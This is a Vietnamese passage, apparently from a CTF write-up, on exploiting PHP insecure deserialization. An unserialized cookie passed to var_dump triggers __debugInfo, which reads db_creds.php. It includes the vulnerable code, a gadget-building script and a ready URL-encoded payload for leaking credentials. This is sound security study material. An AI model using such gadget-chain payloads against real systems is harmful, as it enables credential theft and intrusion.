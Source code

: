 Tại sao mình lại sử dụng phương thức `getAllRecords()` để đọc file creds, thì mình cũng đã có nói ở trên, magic method `__debugInfo()` sẽ được gọi khi chương trình `var_dump()` đối tượng, hàm `var_dump()` này nằm ở `index.php`, khi được gọi lên thì nó lại gọi tiếp đến phương thức `getAllAlbums()`, nếu như thuộc tính `$store` ở đây là một đối tượng `CsvRecordStore` với thuộc tính `$file` là đường dẫn đến file `db_creds.php` thì mình có thể trigger ra được các dữ liệu trong này

```php
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
    ...
	public function getAllAlbums() {
        return $this->store->getAllRecords();
    }

    public function __debugInfo() {
        return $this->getAllAlbums();
    }
}

// index.php
if (isset($_COOKIE['prefs'])) {
    $prefs = unserialize($_COOKIE['prefs']);
    if (!($prefs instanceof UserPrefs)) {
        echo "Unrecognized data: ";
        var_dump($prefs);
        exit;
    }
```

Như đã phân tích, mình viết script `leak_db_creds.php`

```php
<?php

class CsvRecordStore 
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }
}
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}
$a = new Albums(new CsvRecordStore("db_creds.php"));
$b = urlencode(serialize($a));
echo $b;


?>
// O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A14%3A%22CsvRecordStore%22%3A1%3A%7Bs%3A20%3A%22%00CsvRecordStore%00file%22%3Bs%3A12%3A%22db_creds.php%22%3B%7D%7D
```
